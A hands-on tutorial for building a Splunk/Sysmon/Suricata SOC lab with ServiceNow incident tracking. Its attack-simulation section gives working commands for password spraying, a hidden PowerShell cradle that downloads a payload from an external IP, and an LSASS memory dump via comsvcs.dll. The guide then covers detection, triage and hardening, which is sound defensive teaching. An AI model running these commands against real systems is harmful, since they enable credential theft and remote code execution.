

# Enterprise SOC Lab: Complete End-to-End Implementation Master Guide with AI

This guide provides every single step to build your ** SOC Monitoring & Incident Response Lab** using a safe **Hybrid Setup** (Splunk on Host PC + Windows/Suricata Target VM in VMware + ServiceNow Developer Cloud + AI Tools).

---

## 🌟 The Flagship End-to-End Cyber Kill Chain Flow

This lab implements the complete enterprise incident lifecycle:



---

## Architecture Summary
- **Host PC (Physical):** Splunk Enterprise SIEM (Port `8000` Web UI, Port `9997` Log Ingestion Receiver).
- **VMware Guest VM:** Windows 10/11 or Server (NAT Network) with **Sysmon** + **Suricata IDS/IPS** + **Splunk Universal Forwarder**.
- **Cloud:** ServiceNow Developer PDI (Free ITSM & Incident Management).

---

## Step 1: Install & Configure Splunk Enterprise (Host PC)

### 1.1 Download and Install Splunk
1. Go to [splunk.com](https://www.splunk.com/en_us/download/splunk-enterprise.html) and create a free account.
2. Download **Splunk Enterprise for Windows** (`.msi`).
3. Run the installer:
   - Check **"Customize installation"** if you want to change paths, or proceed with defaults (`C:\Program Files\Splunk`).
   - Create an administrator username (e.g., `admin`) and a secure password (e.g., `Splunk@SOC2026`).
4. Finish installation. Open your browser and navigate to:
   `http://localhost:8000`

---

### 1.2 Enable Log Receiving on Port 9997
1. Log in to the Splunk Web UI.
2. In the top right menu, click **Settings** $\rightarrow$ **Forwarding and receiving**.
3. Under **Receive data**, click **Configure receiving** $\rightarrow$ **New Receiving Port**.
4. Enter `9997` and click **Save**.

---

### 1.3 Create Dedicated SOC Indexes
1. Go to **Settings** $\rightarrow$ **Indexes** $\rightarrow$ Click **New Index**.
2. Create the following 4 indexes (leave max size at default `500MB` or `1000MB`):
   - `wineventlog` (for Windows Security, System, and Application logs)
   - `edr_sysmon` (for Sysmon process and memory telemetry)
   - `ids_suricata` (for Suricata IDS/IPS `eve.json` network alerts)
   - `network_fw` (for firewall / perimeter traffic)

---

### 1.4 Find Your Host Machine's Local VMware IP
1. On your host PC, open PowerShell and run:
   ```powershell
   ipconfig
   ```
2. Look for the **VMware Network Adapter VMnet8** (NAT) IPv4 address (e.g., `192.168.158.158` or `192.168.158.186`). Keep this IP handy.

---

## Step 2: Configure VMware Target VM (Endpoint & Network Telemetry)

### 2.1 Set Up the Windows VM
1. In **VMware Workstation**, create a Windows 10/11 or Windows Server evaluation VM.
2. Set Network Adapter to **NAT**.
3. Open Windows PowerShell as Administrator inside the VM and verify connectivity to your host Splunk port:
   ```powershell
   Test-NetConnection -ComputerName <YOUR_HOST_VMNET8_IP> -Port 9997
   # Should return: TcpTestSucceeded : True
   ```

---

### 2.2 Install Sysmon for Deep Endpoint Telemetry
1. In the VM, download [Sysinternals Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download the modular configuration:
   - **Direct Download URL**: [sysmonconfig.xml (Latest Release)](https://github.com/olafhartong/sysmon-modular/releases/latest/download/sysmonconfig.xml)
   - *(Alternative - SwiftOnSecurity Config)*: [sysmonconfig-export.xml](https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml)
3. Extract `Sysmon.zip` to `C:\Tools\Sysmon\`.
4. Open an **Administrator PowerShell** prompt inside the VM and download/install:
   ```powershell
   cd C:\Tools\Sysmon

   # Download the config directly via PowerShell:
   Invoke-WebRequest -Uri "https://github.com/olafhartong/sysmon-modular/releases/latest/download/sysmonconfig.xml" -OutFile "sysmonconfig.xml"

   # Install Sysmon with the config:
   .\Sysmon64.exe -accepteula -i sysmonconfig.xml
   ```
5. Verify it is running:
   ```powershell
   Get-Service Sysmon64
   ```

---

### 2.3 Install & Configure Suricata IDS/IPS (Network Sensor)

1. Download the latest MSI installer for Windows from [Suricata.io Downloads](https://suricata.io/download/).
2. Install with default settings to `C:\Program Files\Suricata`.
3. Install **Npcap** (packet capture driver), checking **"WinPcap API-compatible mode"**.
4. Open `C:\Program Files\Suricata\suricata.yaml` in Notepad (as Administrator) and verify `eve-log` is enabled:
   ```yaml
   outputs:
     - eve-log:
         enabled: yes
         filetype: regular
         filename: C:\Program Files\Suricata\log\eve.json
         types:
           - alert:
               payload: yes
               payload-printable: yes
               packet: yes
               metadata: yes
               http-body: yes
           - http
           - dns
           - tls
   ```
5. Download & Extract Emerging Threats (ET Open) Rules:
   ```powershell
   # Download ET Open ruleset zip:
   Invoke-WebRequest -Uri "https://rules.emergingthreats.net/open/suricata-7.0.3/emerging.rules.zip" -OutFile "C:\Program Files\Suricata\rules.zip"

   # Extract directly into Suricata directory:
   Expand-Archive -Path "C:\Program Files\Suricata\rules.zip" -DestinationPath "C:\Program Files\Suricata" -Force

   # If nested under rules\rules, flatten to rules\:
   if (Test-Path "C:\Program Files\Suricata\rules\rules") {
       Move-Item -Path "C:\Program Files\Suricata\rules\rules\*" -Destination "C:\Program Files\Suricata\rules\" -Force
   }

   # Create threshold.config:
   New-Item -ItemType File -Path "C:\Program Files\Suricata\threshold.config" -Force | Out-Null
   ```

6. Start Suricata by passing your **VM's local IPv4 address** (from `ipconfig`):
   ```powershell
   cd "C:\Program Files\Suricata"

   # Start Suricata monitoring your VM IP (e.g., 192.168.158.186):
   .\suricata.exe -c suricata.yaml -i <YOUR_VM_IP> -l "C:\Program Files\Suricata\log"
   ```
   *(Note: On Windows, `-i` requires your VM's IPv4 address or Npcap device GUID, e.g. `-i 192.168.158.186`).*

---

### 2.4 Configure Splunk Universal Forwarder (`inputs.conf` & Service Permissions)

1. Install Splunk Universal Forwarder and put Receiving Indexer: `<YOUR_HOST_VMNET8_IP>:9997`.
2. Open `C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf` (as Administrator) and paste:
   ```ini
   [default]
   host = CORP-WORKSTATION01

   # 1. Windows Security, System, and Application Event Logs
   [WinEventLog://Security]
   disabled = 0
   index = wineventlog
   renderXml = true
   current_only = 0

   [WinEventLog://System]
   disabled = 0
   index = wineventlog
   renderXml = true
   current_only = 0

   [WinEventLog://Application]
   disabled = 0
   index = wineventlog
   renderXml = true
   current_only = 0

   # 2. Sysmon EDR Telemetry
   [WinEventLog://Microsoft-Windows-Sysmon/Operational]
   disabled = 0
   index = edr_sysmon
   renderXml = true
   current_only = 0

   # 3. Suricata IDS / IPS Network Logs (eve.json)
   [monitor://C:\Program Files\Suricata\log\eve.json]
   disabled = 0
   index = ids_suricata
   sourcetype = suricata:eve

   # 4. Windows Firewall Logs
   [monitor://C:\Windows\System32\LogFiles\Firewall\pfirewall.log]
   disabled = 0
   index = network_fw
   sourcetype = windows:firewall
   ```

3. **Important Service Privilege Fix (Prevents Sysmon Access Denied `errorCode=5`):**
   Run these commands in Administrator PowerShell:
   ```powershell
   # Configure forwarder to run as Local System to access protected event channels
   $svc = Get-WmiObject Win32_Service -Filter "Name='SplunkForwarder'"
   $svc.Change($null,$null,$null,$null,$null,$null,"LocalSystem","",$null,$null,$null)

   # Grant read permissions on the Sysmon channel
   wevtutil sl "Microsoft-Windows-Sysmon/Operational" "/ca:O:BAG:SYD:(A;;0x1;;;SY)(A;;0x1;;;BA)(A;;0x1;;;LA)(A;;0x1;;;NS)(A;;0x1;;;LS)(A;;0x1;;;S-1-5-32-573)"

   # Restart the Forwarder
   Restart-Service -Name SplunkForwarder
   ```

4. Take a VMware Snapshot named `Clean_Baseline_With_Sysmon_Suricata_Forwarder`.

---

## Step 3: The Complete End-to-End Attack Simulation Execution

Execute this chain inside the VM to generate authentic multi-stage threat logs:

### 🔴 Stage 1: Brute Force / Password Spraying (`MITRE T1110`)
```powershell
$users = @("mscott", "bwayne", "dharvey", "finance_svc", "hr_backup", "jsmith", "clark.kent", "administrator")
foreach ($user in $users) {
    for ($i=1; $i -le 3; $i++) {
        net use \\127.0.0.1\IPC$ /user:CORP\$user "WrongPassword123!" 2>$null
        Start-Sleep -Milliseconds 200
    }
}
# Attacker succeeds on finance_svc account:
net use \\127.0.0.1\IPC$ /user:CORP\finance_svc "Finance2026!!"
```

---

### 🔴 Stage 2: Phishing Execution Simulation (`MITRE T1566`)
Simulate a user executing a weaponized invoice attachment (`Invoice_Q3.pdf.exe` disguised with double extension), triggering file creation (Event ID 11) and process execution with discovery (Event ID 1 / 4688):

```powershell
# 1. Ensure target directory exists
New-Item -Path "C:\Users\Public\Downloads" -ItemType Directory -Force | Out-Null

# 2. Drop disguised payload (copies a valid executable to generate authentic PE process telemetry)
Copy-Item -Path "$env:SystemRoot\System32\cmd.exe" -Destination "C:\Users\Public\Downloads\Invoice_Q3.pdf.exe" -Force

# 3. Simulate victim opening attachment & initial discovery commands
Start-Process -FilePath "C:\Users\Public\Downloads\Invoice_Q3.pdf.exe" -ArgumentList "/c whoami && ipconfig /all" -Wait

# 4. Cleanup after analysis:
# Get-Process -Name "Invoice_Q3.pdf*" -ErrorAction SilentlyContinue | Stop-Process -Force
# Remove-Item -Path "C:\Users\Public\Downloads\Invoice_Q3.pdf.exe" -Force
```

---

### 🔴 Stage 3: PowerShell Download Cradle & Execution (`MITRE T1059`)
Attacker uses PowerShell to fetch secondary payload from C2:
```powershell
# 1. Execute Download Cradle (Hidden PowerShell fetching remote payload)
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://185.220.101.5:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe' -ErrorAction SilentlyContinue"

# 2. Stop & Clean Up after analysis (Terminate process & remove dropped payload):
# Stop payload or lingering cradle processes
Stop-Process -Name "update" -Force -ErrorAction SilentlyContinue
Get-CimInstance Win32_Process -Filter "Name = 'powershell.exe'" | Where-Object { $_.CommandLine -match "Invoke-WebRequest.*update\.exe" } | ForEach-Object { Stop-Process -Id $_.ProcessId -Force }

# Remove downloaded binary from disk
if (Test-Path "C:\Users\Public\update.exe") { Remove-Item -Path "C:\Users\Public\update.exe" -Force }

# Verify cleanup (Process returns nothing, Path returns False)
Get-Process -Name "update" -ErrorAction SilentlyContinue
Test-Path "C:\Users\Public\update.exe"
```

---

### 🔴 Stage 4: Network IDS Alert & LSASS Memory Access (`MITRE T1071` & `T1003`)
Attacker triggers C2 beacon network communication and dumps LSASS memory for credentials:
```powershell
# 1. Triggers Suricata ET USER_AGENTS / Malware C2 Alert
curl.exe -H "User-Agent: CobaltStrike/4.5" http://testmyids.com

# 2. Dumps LSASS memory via comsvcs.dll (Sysmon Event ID 10)
$lsassPid = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPid C:\Users\Public\lsass.dmp full

# 3. Cleanup after analysis:
# Remove-Item -Path "C:\Users\Public\lsass.dmp" -Force -ErrorAction SilentlyContinue
```

---

## Step 4: Multi-Source SIEM Correlation & SPL Detection Rules

In Splunk Web (`Search & Reporting`), build and save these correlation rules:

### 🔍 1. Complete Kill Chain Multi-Source Correlation Search
```spl
(index=wineventlog EventCode IN (4625, 4624)) OR 
(index=edr_sysmon EventCode IN (1, 10, 11)) OR 
(index=ids_suricata event_type=alert)
| eval Incident_Stage=case(
    EventCode=="4625", "1. Brute Force Attempt (T1110)",
    EventCode=="4624", "2. Successful Authentication",
    (EventCode=="1" OR EventCode=="11") AND (TargetFilename LIKE "%Invoice_Q3%" OR Image LIKE "%Invoice_Q3%"), "3. Spearphishing Attachment Execution (T1566.001)",
    EventCode=="1" AND (CommandLine LIKE "%powershell%" OR CommandLine LIKE "%Invoke-%"), "4. Suspicious PowerShell Cradle (T1059.001)",
    EventCode=="10" AND TargetImage LIKE "%lsass.exe", "5. LSASS Credential Dump (T1003.001)",
    event_type=="alert", "6. Suricata Network IDS C2 Alert (T1071)"
)
| where isnotnull(Incident_Stage)
| table _time, host, Incident_Stage, TargetUserName, Image, CommandLine, TargetFilename, "alert.signature", src_ip, dest_ip
| sort _time
```

---

### 🔍 2. Dedicated Attack Phase Detections

| Detection Name | SPL Search Query | MITRE Technique | Severity |
| :--- | :--- | :--- | :--- |
| **Password Spray Detection** | `index=wineventlog EventCode=4625 \| stats count by src_ip, TargetUserName \| where count >= 10` | `T1110` | **High** |
| **Double-Extension Phishing Payload** | `index=edr_sysmon (EventCode=1 OR EventCode=11) (Image="*.pdf.exe" OR TargetFilename="*.pdf.exe")` | `T1566` | **High** |
| **PowerShell Download Cradle** | `index=edr_sysmon EventCode=1 Image="*\\powershell.exe" CommandLine="*Invoke-WebRequest*" OR CommandLine="*DownloadString*"` | `T1059` | **High** |
| **LSASS Memory Dumping** | `index=edr_sysmon EventCode=10 TargetImage="*\\lsass.exe" GrantedAccess IN ("0x1010", "0x1410", "0x1fffff")` | `T1003` | **Critical** |
| **Suricata Network Intrusion** | `index=ids_suricata event_type=alert \| table _time, alert.signature, alert.category, src_ip, dest_ip` | `T1071 / T1190` | **High** |

---

## Step 5: SOC Analyst Alert Triage & IoC Extraction Workflow

### 5.1 Triage Assessment (True Positive Confirmation)
1. **Initial Trigger:** Splunk fires alert `[CRITICAL] Multi-Stage Attack: Brute Force -> Phishing Payload -> PowerShell -> LSASS Dump`.
2. **Analysis:**
   - 24 failed login events from source IP `185.220.101.5` targeting 8 unique usernames.
   - Successful login on account `CORP\finance_svc`.
   - Spearphishing attachment `Invoice_Q3.pdf.exe` dropped and executed from `C:\Users\Public\Downloads\`.
   - Hidden PowerShell execution from user `finance_svc` downloading binary from external port `8080`.
   - `rundll32.exe` requested full access (`0x1fffff`) to `lsass.exe`.
   - Suricata triggered on outbound C2 signature to `185.220.101.5`.
3. **Verdict:** **TRUE POSITIVE (High Severity Cyber Incident).**

---

### 5.2 Indicators of Compromise (IoC) Table

| IoC Type | Value | Context & Threat Intelligence Result |
| :--- | :--- | :--- |
| **Attacker IPv4** | `185.220.101.5` | AbuseIPDB Score: **100% Malicious** (Known Tor Exit / C2 Node). |
| **Target Host** | `CORP-WORKSTATION01` (`192.168.XX.XX`) | Windows 10 Finance Workstation. |
| **Compromised Account** | `CORP\finance_svc` | Domain Service Account (Elevated Privileges). |
| **Phishing Attachment** | `C:\Users\Public\Downloads\Invoice_Q3.pdf.exe` | Double extension disguised executable (`T1566`). |
| **Malicious File Path** | `C:\Users\Public\update.exe` | Unsigned binary dropped in public writable directory. |
| **Dump Artifact** | `C:\Users\Public\lsass.dmp` | Forensic artifact containing credential hashes. |
| **User-Agent** | `CobaltStrike/4.5` | Known Adversary Emulation / C2 Framework. |

---

### 5.3 MITRE ATT&CK Framework Mapping

```
[Initial Access]          T1110 - Password Spraying
[Initial Access]          T1566 - Spearphishing Attachment (Invoice_Q3.pdf.exe)
[Execution]               T1059 - PowerShell Command and Scripting Interpreter
[Defense Evasion]         T1027     - Obfuscated Files or Information
[Credential Access]       T1003 - OS Credential Dumping: LSASS Memory
[Command and Control]     T1071 - Web Protocols (C2 Beaconing)
```

---

## Step 6: ServiceNow Incident Escalation & Lifecycle Tracking

### 6.1 Create ServiceNow Incident Ticket
1. Go to your ServiceNow Developer Instance (`https://devXXXXX.service-now.com`).
2. Navigate to **Incidents** $\rightarrow$ **Create New**.
3. Fill in the incident ticket details:

```
Number: INC0010942
Caller: SOC Automation (Splunk SIEM)
Category: Security
Subcategory: Multi-Stage Intrusion / Credential Harvesting
Impact: 1 - High
Urgency: 1 - High
Priority: 1 - Critical
Assignment Group: SOC Tier 2 / Incident Response Team
Assigned To: <Your Name>

Short Description:
[P1-CRITICAL] Multi-Stage Attack: Brute Force -> Phishing Payload -> PowerShell Cradle -> LSASS Memory Dump on CORP-WORKSTATION01

Work Notes (Incident Timeline & Containment Actions):
- [00:00:00] Initial alert ingested from Splunk correlation search.
- [00:04:12] Ticket assigned to SOC L1 Analyst. Response SLA met (Target: < 15 min).
- [00:10:00] Threat Intel enrichment completed: IP 185.220.101.5 confirmed malicious C2.
- [00:15:30] Incident escalated to P1 Critical; IR Team engaged.
- [00:22:00] CONTAINMENT: Host CORP-WORKSTATION01 network-isolated via EDR agent.
- [00:28:00] CONTAINMENT: Account CORP\finance_svc disabled in Active Directory; active Kerberos tickets purged.
- [00:35:00] ERADICATION: Malicious files (Invoice_Q3.pdf.exe, update.exe, lsass.dmp) quarantined.
- [00:48:00] Perimeter firewall rule pushed: Block Inbound/Outbound IP 185.220.101.5/32.
- [01:15:00] Forensic host scan clean. Resolution SLA met (Target: < 2 hours).
```

4. Change Status to **Resolved**.
   - **Resolution Code:** `Solved (Permanently)`
   - **Resolution Notes:** *Endpoint isolated, compromised credentials revoked, malicious artifacts removed, and C2 IP blocked across enterprise perimeter.*

---

## Step 7: Formal Incident Response Report (Post-Incident RCA)

Save this professional Incident Report in your project portfolio:

```markdown
# INCIDENT INVESTIGATION REPORT: INC0010004
**Incident Title:** Multi-Stage Endpoint Intrusion & Credential Harvesting  
**Date/Time:** 2026-10-09 22:59:00 IST – 23:45:00 IST  
**Severity Level:** P1 - Critical  
**Lead Investigator:** SOC Analyst (<Your Name>)  
**Affected Asset:** CORP-WORKSTATION01 (192.168.XX.XX)  
**Compromised Identity:** CORP\finance_svc  

---

### 1. Executive Summary
On October 9, 2026, the SOC SIEM detected a coordinated multi-stage cyber intrusion targeting workstation CORP-WORKSTATION01. The adversary initiated an external password spraying campaign from IP 185.220.101.5, successfully compromising the 'finance_svc' service account. The adversary subsequently executed an obfuscated PowerShell download cradle to retrieve a secondary binary, executed a disguised phishing attachment (Invoice_Q3.pdf.exe), and initiated an LSASS process memory dump (T1003.001) to harvest domain credentials. Outbound C2 network traffic was flagged by Suricata IDS. The SOC team responded within 4 minutes, isolating the host, disabling the compromised credentials, and blocking all adversary infrastructure within 48 minutes, preventing unauthorized lateral movement or data exfiltration.

---

### 2. Attack Narrative & Chronology
1. **22:59:00 IST:** Attacker initiated 24 failed login attempts (Event 4625) against 8 accounts.
2. **23:01:15 IST:** Successful logon (Event 4624) achieved for account 'finance_svc'.
3. **23:05:00 IST:** Weaponized attachment `Invoice_Q3.pdf.exe` executed, initiating discovery commands (`whoami`, `ipconfig`).
4. **23:06:45 IST:** PowerShell spawned in hidden mode, requesting external payload `http://185.220.101.5:8080/payload.exe`.
5. **23:08:10 IST:** `rundll32.exe` invoked `comsvcs.dll` to dump `lsass.exe` memory to disk.
6. **23:09:20 IST:** Suricata IDS generated high-severity alert for known C2 user-agent beaconing.
7. **22:59:00 IST – 23:45:00 IST:** Containment, credential revocation, host quarantine, and firewall IP blacklisting completed.

---

### 3. Root Cause Analysis (RCA)
- **Primary Root Cause:** Service account `finance_svc` utilized a weak, non-expiring password that was susceptible to password spraying, and lacked Multi-Factor Authentication (MFA) enforcement.
- **Secondary Root Cause:** Public directory `C:\Users\Public` permitted script and binary execution without AppLocker / Software Restriction Policy enforcement.

---

### 4. Corrective & Preventive Action Plan (CAPA)
1. **Identity Hardening:** Enforce MFA on all interactive logins and rotate all service account passwords into an automated PAM (Privileged Access Management) vault.
2. **Endpoint Hardening:** Deploy AppLocker / WDAC policies to block executable and script execution from `C:\Users\Public\` and `C:\Users\AppData\Local\Temp\`.
3. **Detection Tuning:** Enable automated SOAR playbooks to automatically isolate hosts upon verified LSASS memory dump detection.
```

---

## Step 8: Splunk Dark-Mode SOC Operations Dashboard

In Splunk, go to **Dashboards** $\rightarrow$ **Create New Dashboard** $\rightarrow$ **Source (XML)** and paste:

```xml
<dashboard version="1.1" theme="dark">
  <label> Enterprise SOC Monitoring &amp; Incident Triage Operations</label>
  <description>Real-time security telemetry, Suricata IDS, Sysmon EDR, and Active Directory incident response metrics</description>
  
  <row>
    <panel>
      <single>
        <title>Suricata IDS Network Alerts</title>
        <search>
          <query>index=ids_suricata event_type=alert | stats count</query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
        <option name="colorMode">block</option>
        <option name="rangeColors">["0x53a051","0xf8be34","0xdc4e41"]</option>
        <option name="rangeValues">[1,10]</option>
        <option name="useColors">1</option>
      </single>
    </panel>
    <panel>
      <single>
        <title>AD Failed Logins (Event 4625)</title>
        <search>
          <query>index=wineventlog EventCode=4625 | stats count</query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
        <option name="colorMode">block</option>
        <option name="rangeColors">["0x53a051","0xf8be34","0xdc4e41"]</option>
        <option name="rangeValues">[10,50]</option>
        <option name="useColors">1</option>
      </single>
    </panel>
    <panel>
      <single>
        <title>Phishing &amp; Double Extensions</title>
        <search>
          <query>index=edr_sysmon (EventCode=1 OR EventCode=11) (Image="*.pdf.exe" OR TargetFilename="*.pdf.exe") | stats count</query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
        <option name="colorMode">block</option>
        <option name="rangeColors">["0x53a051","0xdc4e41"]</option>
        <option name="rangeValues">[1]</option>
        <option name="useColors">1</option>
      </single>
    </panel>
    <panel>
      <single>
        <title>LSASS Credential Dumping Alerts</title>
        <search>
          <query>index=edr_sysmon EventCode=10 TargetImage="*\\lsass.exe" | stats count</query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
        <option name="colorMode">block</option>
        <option name="rangeColors">["0x53a051","0xdc4e41"]</option>
        <option name="rangeValues">[1]</option>
        <option name="useColors">1</option>
      </single>
    </panel>
    <panel>
      <single>
        <title>PowerShell Download Cradles</title>
        <search>
          <query>index=edr_sysmon EventCode=1 (Image="*\\powershell.exe" OR Image="*\\pwsh.exe") | stats count</query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
        <option name="colorMode">block</option>
        <option name="rangeColors">["0x53a051","0xf8be34","0xdc4e41"]</option>
        <option name="rangeValues">[5,20]</option>
        <option name="useColors">1</option>
      </single>
    </panel>
  </row>
  
  <row>
    <panel>
      <table>
        <title>Live Multi-Stage Kill Chain Alert Correlation Queue</title>
        <search>
          <query>
            (index=wineventlog EventCode IN (4625, 4624)) OR 
            (index=edr_sysmon EventCode IN (1, 10, 11)) OR 
            (index=ids_suricata event_type=alert)
            | eval Stage=case(
                EventCode=="4625", "1. Password Spray Attempt (T1110)",
                EventCode=="4624", "2. Successful Authentication",
                (EventCode=="1" OR EventCode=="11") AND (TargetFilename LIKE "%Invoice_Q3%" OR Image LIKE "%Invoice_Q3%"), "3. Phishing Attachment (T1566.001)",
                EventCode=="1" AND (CommandLine LIKE "%powershell%" OR CommandLine LIKE "%Invoke-%"), "4. PowerShell Cradle (T1059.001)",
                EventCode=="10" AND TargetImage LIKE "%lsass.exe", "5. LSASS Dump (T1003.001)",
                event_type=="alert", "6. Suricata C2 Alert (T1071)"
            )
            | where isnotnull(Stage)
            | table _time, host, Stage, TargetUserName, Image, CommandLine, TargetFilename, "alert.signature", src_ip, dest_ip
            | sort - _time
          </query>
          <earliest>-168h@h</earliest>
          <latest>now</latest>
        </search>
      </table>
    </panel>
  </row>
</dashboard>
```

---

## Step 9: Hands-On CAPA Hardening & SOAR Automation (Lab Practice)

This section provides the actionable, step-by-step remediation procedures to implement the Corrective & Preventive Action Plan (CAPA) inside your hybrid lab environment.

### 9.1 Identity Hardening & Service Account Protection (Inside Windows VM)

Adversary password spraying against `finance_svc` and domain accounts is neutralized using account lockout thresholds, interactive logon restrictions, and automated PAM password rotation.

#### 1. Enforce Account Lockout Policy
Open **PowerShell as Administrator** in the VM:
```powershell
# Lock account after 5 failed attempts for 30 minutes
net accounts /lockoutthreshold:5
net accounts /lockoutduration:30
net accounts /lockoutwindow:15

# Verify settings
net accounts
```
*Result: Any password spray exceeding 5 attempts triggers Windows Event ID 4740 (Account Locked Out) and blocks unauthorized access.*

#### 2. Restrict Service Account Interactive Logons (`Deny Log on Locally`)
1. Press `Win + R`, type `secpol.msc` (Local Security Policy), and press Enter.
2. Navigate to: **Security Settings** $\rightarrow$ **Local Policies** $\rightarrow$ **User Rights Assignment**.
3. Double-click **Deny log on locally** $\rightarrow$ Click **Add User or Group...** $\rightarrow$ Add `finance_svc` $\rightarrow$ Click **OK**.
4. Double-click **Deny log on through Remote Desktop Services** $\rightarrow$ Add `finance_svc` $\rightarrow$ Click **OK**.

#### 3. Automated PAM Password Rotation Script (Simulation)
Create and run the automated rotation script:
```powershell
New-Item -Path "C:\Tools\PAM_Rotation" -ItemType Directory -Force | Out-Null

$scriptContent = @'
# Generate 24-character cryptographic password
Add-Type -AssemblyName System.Web
$NewPassword = [System.Web.Security.Membership]::GeneratePassword(24, 4) + "A1!"

# Rotate service account password
$Username = "finance_svc"
$User = [ADSI]"WinNT://$env:COMPUTERNAME/$Username,user"
$User.SetPassword($NewPassword)
$User.SetInfo()

# Log audit event
$LogEntry = "[PAM ROTATION] Password for $Username rotated at $(Get-Date -Format 'yyyy-MM-dd HH:mm:ss') UTC."
Add-Content -Path "C:\Tools\PAM_Rotation\pam_audit.log" -Value $LogEntry
Write-Host $LogEntry -ForegroundColor Green
'@

Set-Content -Path "C:\Tools\PAM_Rotation\Rotate-ServiceAccount.ps1" -Value $scriptContent

# Test rotation
powershell.exe -ExecutionPolicy Bypass -File "C:\Tools\PAM_Rotation\Rotate-ServiceAccount.ps1"
```

---

### 9.2 Endpoint Hardening via AppLocker (Inside Windows VM)

Block unauthorized executables and scripts in user-writable paths (`C:\Users\Public\` and `%TEMP%`).

#### 1. Enable Application Identity Service
```powershell
Set-Service -Name AppIDSvc -StartupType Automatic
Start-Service -Name AppIDSvc
Get-Service AppIDSvc
```

#### 2. Configure AppLocker Policy via `secpol.msc`
1. Open `secpol.msc` $\rightarrow$ **Application Control Policies** $\rightarrow$ **AppLocker**.
2. Right-click **Executable Rules** $\rightarrow$ Click **Create Default Rules** (Allows `C:\Program Files`, `C:\Windows`, and Administrators).
3. Right-click **Executable Rules** $\rightarrow$ Click **Create New Rule...**:
   - **Permission:** Select **Deny**, User: **Everyone**.
   - **Condition:** Select **Path**.
   - **Path:** `%SYSTEMDRIVE%\Users\Public\*`
   - Click **Create**.
4. Right-click **AppLocker** (top node) $\rightarrow$ **Properties** $\rightarrow$ Under **Executable rules**, check **Configured** and select **Enforce rules** $\rightarrow$ Click **OK**.
5. Apply policy immediately:
```powershell
gpupdate /force
```

#### 3. Test & Verify AppLocker Hardening
```powershell
# Attempt executing malware payload in Public directory
Copy-Item -Path "$env:SystemRoot\System32\cmd.exe" -Destination "C:\Users\Public\test_malware.exe"
& "C:\Users\Public\test_malware.exe"
```
*Expected: Blocked by administrator popup. AppLocker generates Event ID 8004 in `Microsoft-Windows-AppLocker/EXE and DLL` event channel.*

---

### 9.3 Detection Tuning & Automated SOAR Playbook Simulation

#### 1. Real-Time Splunk Alert for LSASS Credential Dumping
In Splunk Web (`http://localhost:8000`), save this tuned correlation search as a Real-Time Alert:
```spl
index=edr_sysmon EventCode=10 TargetImage="*\\lsass.exe" GrantedAccess IN ("0x1010", "0x1410", "0x1fffff")
| eval Attacking_Process=SourceImage
| eval Target=TargetImage
| table _time, host, SourceImage, TargetImage, GrantedAccess, CallTrace
```
- **Alert type:** Real-time (or Scheduled every 5 minutes).
- **Trigger condition:** Number of Results > 0.
- **Throttle:** 60 seconds by field `host`.

#### 2. Automated Host Isolation Playbook (`Isolate-Host.ps1`)
In the VM, create the automated emergency containment playbook:
```powershell
New-Item -Path "C:\Tools\SOAR_Playbooks" -ItemType Directory -Force | Out-Null

$isolateScript = @'
param([string]$Reason = "Automated SOAR Trigger: LSASS Credential Dump Detected")

Write-Host "[!] INITIATING EMERGENCY HOST CONTAINMENT..." -ForegroundColor Red

# 1. Kill high-risk processes
Stop-Process -Name "rundll32", "powershell" -Force -ErrorAction SilentlyContinue

# 2. Block all outbound traffic except Splunk Forwarder port 9997
New-NetFirewallRule -DisplayName "SOAR-EMERGENCY-HOST-ISOLATION" `
                    -Direction Outbound `
                    -Action Block `
                    -RemotePort Any `
                    -Protocol Any `
                    -Enabled True

New-NetFirewallRule -DisplayName "SOAR-ALLOW-SPLUNK-TELEMETRY" `
                    -Direction Outbound `
                    -Action Allow `
                    -RemotePort 9997 `
                    -Protocol TCP `
                    -Enabled True

# 3. Log containment
$Log = "[$(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')] HOST ISOLATED. Reason: $Reason"
Add-Content -Path "C:\Tools\SOAR_Playbooks\isolation_log.txt" -Value $Log
Write-Host $Log -ForegroundColor Green
'@

Set-Content -Path "C:\Tools\SOAR_Playbooks\Isolate-Host.ps1" -Value $isolateScript
```

#### 3. Automated ServiceNow P1 Ticket Creation via REST API
Execute from PowerShell to simulate SOAR automated incident escalation:
```powershell
$InstanceName = "devXXXXX"  # Replace with your ServiceNow instance subdomain
$Username     = "admin"
$Password     = "YourServiceNowPassword!"

$Uri = "https://$InstanceName.service-now.com/api/now/table/incident"
$Body = @{
    short_description = "[AUTO-SOAR P1] Verified LSASS Memory Dump on CORP-WORKSTATION01"
    description       = "Automated Alert: Sysmon Event 10 detected comsvcs.dll dumping lsass.exe memory. Host isolation playbook triggered."
    impact            = "1"
    urgency           = "1"
    category          = "Security"
    assignment_group  = "Incident Management"
    work_notes        = "Automated SOAR Action: Host network isolated; firewall rules deployed; forensic dump quarantined."
} | ConvertTo-Json

$Base64Auth = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("${Username}:${Password}"))
$Headers = @{
    "Authorization" = "Basic $Base64Auth"
    "Content-Type"  = "application/json"
    "Accept"        = "application/json"
}

$Response = Invoke-RestMethod -Uri $Uri -Method Post -Headers $Headers -Body $Body
Write-Host "[+] Successfully created ServiceNow Incident: $($Response.result.number)" -ForegroundColor Green
```

